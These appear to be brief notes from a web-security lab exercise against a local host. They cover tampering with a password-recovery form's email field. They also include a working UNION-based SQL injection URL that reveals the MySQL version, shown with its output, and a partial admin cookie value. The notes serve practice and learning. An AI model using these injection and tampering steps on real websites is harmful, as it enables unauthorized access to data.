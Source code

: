 
Did you know 'unsecure' is a word? I did not


Go go http://192.168.1.59/?page=recover#
Inspect submit button element
Change email while respecting length contraints
Click submit


Help: https://www.acunetix.com/blog/articles/exploiting-sql-injection-example/

Show MySQL version
http://192.168.1.59/index.php?page=member&id=-1+union+select+1,version()&Submit=Submit#
ID: -1 union select 1,version()
First name: 1
Surname : 5.5.44-0ubuntu0.12.04.1

I_am_admin=68934a3e945...eb05902327
